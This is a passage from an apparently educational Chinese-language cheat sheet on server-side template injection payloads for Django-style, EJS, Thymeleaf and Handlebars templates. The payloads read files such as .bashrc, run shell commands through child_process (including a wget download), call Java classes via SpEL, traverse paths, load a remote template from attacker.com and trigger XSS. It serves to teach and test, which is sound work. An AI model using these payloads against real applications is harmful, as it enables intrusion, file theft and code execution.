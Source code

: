 ##### 绕过过滤器限制（若存在）

* 假设存在一个自定义过滤器限制了输出
    * 输入：`{ { 'a'|add:'b'|add:'c' }}`
    * 原理：通过多个过滤器组合绕过单一过滤器的限制，拼接字符串。

#### （4），EJS（JavaScript，用于 Node.js 的 Express 框架）

##### 读取文件

* 读取项目根目录下的 `package.json` 文件
    * 输入：`<% var fs = require('fs'); console.log(fs.readFileSync('./package.json', 'utf8')) %>`
    * 原理：使用 Node.js 的 `fs` 模块读取项目根目录下的 `package.json` 文件内容。
* 读取用户主目录下的 `.bashrc` 文件（Linux 系统）
    * 输入：`<% var fs = require('fs'); console.log(fs.readFileSync(process.env.HOME + '/.bashrc', 'utf8')) %>`
    * 原理：通过 `process.env.HOME` 获取用户主目录路径，然后读取 `.bashrc` 文件内容。

##### 执行系统命令

* 创建一个新文件
    * 输入：`<% var { execSync } = require('child_process'); execSync('touch /tmp/test.txt') %>`
    * 原理：使用 `child_process` 模块的 `execSync` 方法执行 `touch` 命令创建一个新文件。
* 下载一个文件（使用 `wget`）
    * 输入：`<% var { execSync } = require('child_process'); execSync('wget http://example.com/file.txt -O /tmp/downloaded.txt') %>`
    * 原理：执行 `wget` 命令从指定 URL 下载文件并保存到本地。

#### （5），Thymeleaf（Java，常用于 Spring Boot）

##### 利用 Java 反射执行代码

* 获取系统属性
    * 输入：`${T(java.lang.System).getProperties()}`
    * 原理：通过 Java 反射调用 `System` 类的 `getProperties` 方法获取系统属性。
* 执行 Java 代码创建文件
    * 输入：`${T(java.io.File).createTempFile('test', '.txt')}`
    * 原理：使用反射调用 `File` 类的 `createTempFile` 方法创建一个临时文件。

##### 利用 Spring 上下文获取 Bean

* 假设存在一个名为 `userService` 的 Bean
    * 输入：`${@userService.getUserById(1)}`
    * 原理：通过 Spring 表达式语言（SpEL）从 Spring 上下文中获取 `userService` Bean，并调用其 `getUserById` 方法。

#### （6），Handlebars（JavaScript）

##### 结合动态部分模板加载漏洞

* 尝试读取不同目录下的文件
    * 输入：`{ {> ../../../../var/log/syslog }}`（假设应用未对路径进行严格验证，适用于 Linux 系统）
    * 原理：利用部分模板加载机制，尝试读取系统日志文件。
* 尝试加载远程文件（若应用存在协议绕过漏洞）
    * 输入：`{ {> http://attacker.com/malicious_template.hbs }}`
    * 原理：如果应用在加载部分模板时未对 URL 进行严格验证，可能会加载远程恶意模板。

##### 结合 JavaScript 注入（若与 JavaScript 交互）

* 假设 Handlebars 模板用于生成 JavaScript 代码
    * 输入：`{ { '" + alert("XSS") + "' }}`
    * 原理：如果模板输出被嵌入到 JavaScript 代码中，可能会导致 XSS 漏洞，弹出警告框。